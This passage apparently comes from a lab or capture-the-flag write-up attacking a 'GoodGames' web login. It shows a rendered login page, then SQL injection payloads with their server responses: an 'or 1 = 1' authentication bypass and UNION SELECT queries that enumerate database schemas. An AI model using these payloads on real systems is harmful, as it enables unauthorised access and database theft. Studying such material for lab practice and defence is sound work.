     <!DOCTYPE html>

        
    <html lang="en">
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">

        <title>GoodGames | Login Success</title>

        <meta name="description" content="GoodGames - Bootstrap template for communities and games store">
        <meta name="keywords" content="game, gaming, template, HTML template, responsive, Bootstrap, premium">
        <meta name="author" content="_nK">
        <meta http-equiv="refresh" content="5; url=/profile" />

    -------------------------------SOME STUFF-------------------------------
        
        <div class="nk-fullscreen-block-middle">
            <div class="container text-center">
                <div class="row">
                    <div class="col-md-6 offset-md-3 col-lg-4 offset-lg-4">
                        <h1 class="text-main-1" style="font-size: 50px;">Login Successful</h1>

                        <div class="nk-gap"></div>
                        <h2 class="h4">Welcome asd</h2>

                        <div>Redirecting you to profile page...</div>
                        <div class="nk-gap-3"></div>

                        <a href="/" class="nk-btn nk-btn-rounded nk-btn-color-white">Return to Homepage</a>
                    </div>
                </div>
                <div class="nk-gap-3"></div>
            </div>
        </div>
    </div>

    -------------------------------SOME STUFF-------------------------------

I put `'or 1 = 1-- -;` in place of the email value. 

    <h2 class="h4">Welcome admin</h2>

Now I'm looking for the password with a _UNION SELECT_ 

Payload:

    email=' union select 1,2,3,4-- -;&password=asd

Server Response

    <h2 class="h4">Welcome 4</h2>

Now you have to see how many DBs there are

Payload:

    email=' union select 1,2,3,concat(schema_name, " ") FROM information_schema.schemata-- -;&password=asd
